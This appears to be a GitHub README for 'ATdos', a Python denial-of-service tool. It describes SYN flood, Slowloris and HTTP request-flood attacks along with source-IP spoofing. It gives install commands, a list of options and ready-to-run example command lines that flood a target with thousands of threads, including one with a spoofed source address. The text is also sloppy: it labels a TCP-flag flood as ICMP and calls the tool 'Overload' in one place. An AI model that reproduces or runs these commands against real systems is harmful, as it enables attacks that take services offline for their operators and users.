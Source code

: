 [![](https://img.shields.io/badge/NACG_CJanGe-ATdos-pink)](http://github.com/NACG-Mohr/CJan-Ge)
<h1 align="center">ATdos</h1>

This a very powerful denial of service (DDoS) program. It is very efficient and portable, it is stable and useful for stress-testing companies, it currently has three attack methods. 1) SYN/ICMP with 6 flags including fin, syn, rst, ack, psh and urg. 2) Slowloris/SLOW uses sock.connect to attack. 3) Request/Requester uses httplib to attack. You either choose one of the three attack methods or you can choose all three!   
## Getting Started

You will need a few different modules installed to execute Overload.

### Modules

You will have to use pip to install the modules, colorama, termcolor & requests
```
sudo apt-get install python-pip
```
```
sudo yum install python-pip
```
### Module Installing

Using pip you can install the following modules

```
sudo pip install colorama termcolor requests
```


## Install ATdos

```
git clone https://github.com/nacgalevin/ATdos
```
```
cd ATdos
```
```
chmod +x *
```
```
./install.py
```
## Usages
```
usage: ./ATdos.py -target [target] -port [port] -threads [number threads]

optional arguments:
  -h, --help           show this help message and exit

options:

  -target <ip/domain>  Specify your target
  -timeout <timeout>   Timeout for socket
  -threads <threads>   Set threads number for connection (default = 1000)
  -port <port>         Specify port target (default = 80)
  -sleep <sleep time>  Set sleep time for reconnection
  -spoof <spoofed ip>  Specify spoofed IP address
  -request             Enable request target
  -syn                 Enable syn attack
  -slow                Enable slow attack
  -fakeip              Option to create fake ip if not specifed for spoofed ip
```
## Examples
Slowloris/SLOW attack method
```
./ATdos.py -target www.target.com -port 80 -threads 2000 -slow
```
Request/Requester attack method
```
./ATdos.py -target www.target.com -port 80 -threads 2000 -request
```
SYN/6 flagged ICMP attack method
```
./ATdos.py -target www.target.com -syn -threads 5000
```
SLOW/Request/SYN attack method
```
./ATdos.py -target www.target.com -port 80 -threads 2000 -request -slow -syn
```
SLOW/Request/SYN spoofed IP attack method
```
./ATdos.py -target www.target.com -port 80 -threads 2000 -request -slow -syn -spoof 8.8.8.8
```